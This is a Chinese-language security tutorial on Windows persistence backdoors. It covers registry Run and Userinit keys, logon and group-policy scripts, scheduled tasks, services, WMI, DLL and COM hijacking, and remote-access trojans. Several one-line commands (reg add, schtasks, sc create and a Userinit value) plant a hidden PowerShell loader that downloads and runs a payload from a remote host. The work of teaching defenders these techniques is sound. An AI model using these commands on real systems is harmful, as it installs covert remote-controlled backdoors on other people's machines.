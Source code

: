 # 第2篇：Windows权限维持--后门篇

关键词：Windows系统后门、权限维持

在获取服务器权限后，通常会用一些后门技术来维持服务器权限，服务器一旦被植入后门，攻击者便如入无人之境。本文将对常见的window服务端自启动后门技术进行解析，知己知彼方能杜绝后门。

**0x01 注册表自启动**

通过修改注册表自启动键值，添加一个木马程序路径，实现开机自启动。

常用的注册表启动键：

```text
# Run键 
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run

# Winlogon\Userinit键
HKEY_CURRENT_USER\SOFTWARE\Microsoft\WindowsNT\CurrentVersion\Winlogon
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\WindowsNT\CurrentVersion\Winlogon

类似的还有很多,关键词：注册表启动键值。
```

使用以下命令可以一键实现无文件注册表后门：

`reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v "Keyname" /t REG_SZ /d "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://192.168.28.142:8888/logo.gif'))\"" /f`

**Logon Scripts 后门**

注册表路径：HKEY\_CURRENT\_USER\Environment\

创建字符串键值： UserInitMprLogonScript，键值设置为bat的绝对路径：`c:\test.bat`

**userinit后门**

在用户进行登陆时，winlogon运行指定的程序。根据官方文档,可以更改它的值来添加与删除程序。

利用USERINIT注册表键实现无文件后门：

```text
[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon]

"Userinit"="C:\\Windows\\system32\\userinit.exe,C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://192.168.28.142:8888/logo.gif'))\""
```

**0x02 组策略设置脚本启动**

运行gpedit.msc进入本地组策略，通过Windows设置的“脚本\(启动/关机\)”项来说实现。因为其极具隐蔽性，因此常常被攻击者利用来做服务器后门。

![](../.gitbook/assets/privilege-4-3.png)

容易遇到的问题：脚本需全路径，如`C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe`

**0x03 计划任务**

通过window系统的任务计划程序功能实现定时启动某个任务，执行某个脚本。

使用以下命令可以一键实现：

```text
schtasks /create /sc minute /mo 1 /tn "Security Script" /tr "powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring(\"\"\"http://192.168.28.142:8888/logo.gif\"\"\"))\""
```

容易遇到的问题：cmd命令行执行单引号会被替换成双引号，故这里使用三个双引号替代。

计划脚本每 1 分钟运行一次。

![](../.gitbook/assets/privilege-4-4.png)

**0x04 服务自启动**

通过服务设置自启动，结合powershell实现无文件后门。

使用以下命令可实现：

```text
sc create "KeyName" binpath= "cmd /c start powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://192.168.28.142:8888/logo.gif'))\""

sc description  KeyName "Just For Test"   //设置服务的描述字符串
sc config Name start= auto                //设置这个服务为自动启动
net start Name                            //启动服务
```

成功创建了一个自启动服务

![](../.gitbook/assets/privilege-4-5.png)

**0x05 WMI后门**

在2015年的blackhat大会上Matt Graeber介绍了一种无文件后门就是用的WMI。这里可以利用一个工具powersploit，下面用它的Persistence模块来示范一个简单的例子。

```text
Import-Module .\Persistence\Persistence.psm1
$ElevatedOptions = New-ElevatedPersistenceOption -PermanentWMI -Daily -At '3 PM'
$UserOptions = New-UserPersistenceOption -Registry -AtLogon
Add-Persistence -FilePath .\EvilPayload.ps1 -ElevatedPersistenceOption $ElevatedOptions -UserPersistenceOption $UserOptions -Verbose
```

**0x06 dll劫持**

如果在进程尝试加载一个DLL时没有指定DLL的绝对路径，那么Windows会尝试去指定的目录下查找这个DLL；如果攻击者能够控制其中的某一 个目录，并且放一个恶意的DLL文件到这个目录下，这个恶意的DLL便会被进程所加载，从而造成代码执行。

比较常用的如LPK.dll的劫持：

win7及win7以上系统增加了KnownDLLs保护，需要在注册表：

```text
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SessionManager\ExcludeFromKnownDlls
```

下添加 “lpk.dll” 才能顺利劫持：

![](../.gitbook/assets/privilege-4-6.png)

**0x07 COM劫持**

利用COM劫持技术，最为关键的是dll的实现以及CLSID的选择，通过修改CLSID下的注册表键值，实现对CAccPropServicesClass和MMDeviceEnumerator劫持，而系统很多正常程序启动时需要调用这两个实例。这种方法可以绕过Autoruns对启动项的检测。

![](../.gitbook/assets/privilege-4-7.png)

**0x08 远程控制**

远控木马是一种恶意程序，其中包括在目标计算机上用于管理控制的后门。远程访问木马通常与用户请求的程序（如游戏程序）一起，是一种看不见的下载，或作为电子邮件附件发送。一旦主机系统被攻破，入侵者可以利用它来向其他易受感染的计算机分发远程访问木马，从而建立僵尸网络。

一般分为客户端和服务端，如：灰鸽子、上兴远控、梦想时代、QuasarRAT等。

![](../.gitbook/assets/privilege-4-8.png)

**0x09 结束语**

未知攻焉知防，本文分享了几种Window下的自动启权限维持技术。管理员在平时运维过程应当保持警惕，掌握一定的入侵排查技巧，及时进行系统补丁更新，定期对服务器安全检查，才能有效地预防后门。

参考文章：

```text
常见的几种Windows后门持久化方式：https://www.freebuf.com/vuls/195906.html



windows常见后门隐藏和权限维持方法

https://blog.csdn.net/qq_33020901/article/details/89504902
```

[http://xnianq.cn/2018/07/23/windows%E5%90%8E%E9%97%A8%E7%A7%8D%E6%A4%8D%E6%96%B9%E5%BC%8F%E6%94%B6%E9%9B%86/](http://xnianq.cn/2018/07/23/windows%E5%90%8E%E9%97%A8%E7%A7%8D%E6%A4%8D%E6%96%B9%E5%BC%8F%E6%94%B6%E9%9B%86/)

基于Python的隐秘Windows后门，使用Github作为命令和控制服务器

[https://github.com/maldevel/canisrufus](https://github.com/maldevel/canisrufus)

注册表位置参考

```text
http://www.360doc.com/content/12/0217/15/1309227_187374989.shtml
https://www.secpulse.com/archives/103301.html
```

WMI后门参考

```text
http://www.hackdig.com/11/hack-40748.htm
https://blog.csdn.net/qq_17204441/article/details/91863383
```

无文件WMI和PowerShell后门

```text
Windows 下的权限维持：https://www.anquanke.com/post/id/171528

Windows下的权限维持（二）https://www.anquanke.com/post/id/172851
```

